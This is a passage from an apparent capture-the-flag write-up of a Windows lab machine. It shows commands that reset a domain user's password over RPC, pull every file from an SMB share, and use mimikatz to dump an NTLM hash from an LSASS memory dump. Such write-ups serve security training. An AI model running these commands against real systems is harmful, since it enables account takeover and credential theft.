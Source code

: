 **setuserinfo2 audit2020 23 'ASDqwe123'**

⇒ Now we can login to the **forensics** share as audit2020 user as now we have changed the password using rpc :

```bash
smbclient -U audit2020 \\\\10.10.10.192\\forensic
recurse on
prompt off
mget *
```

⇒ We find an file named [lsass.zip](http://lsass.zip) which contains **lsass.dmp** from which we can dump hashes using **mimikatz** and we got the ntlm hash for **svc_backup** user :

Reference : [https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330](https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330)

```bash
mimikatz # sekurlsa::minidump lsass.dmp
```

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2010.png)

```bash
mimikatz # sekurlsa::logonPasswords full
```

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2011.png)

NLTM : 9658d1d1dcd9250115e2205d9f48400d
